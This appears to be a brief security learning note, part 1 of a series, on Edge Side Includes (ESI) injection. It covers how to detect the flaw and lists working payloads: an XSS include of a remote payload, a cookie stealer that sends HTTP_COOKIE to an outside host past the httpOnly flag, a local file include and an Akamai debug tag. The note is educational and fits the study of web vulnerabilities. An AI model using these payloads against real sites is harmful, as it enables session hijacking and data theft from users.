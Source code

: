 Daily Notes : Day 82
ESI Injection. - Part 1

ESI (Edge Side Includes) is utilized to manage caching issues with dynamic applications. It employs ESI tags to specify dynamic content that should be generated before sending the cached version. However, if an attacker inserts an ESI tag into the cache content, they can inject arbitrary content into the document before it reaches users.

The following header in a response from the server means that the server is using ESI:
Surrogate-Control: content="ESI/1.0"

Basic detection
hell<!--esi-->o 
If previous is reflected as "hello", it's vulnerable

Blind detection
<esi:include src=http://<domain>.com>

XSS Exploitation Example
<esi:include src=http://<domain>.com/XSSPAYLOAD.html>

Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://<domain>.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

Valid for Akamai, sends debug information in the response
<esi:debug/>

Further exploitation in part 2 
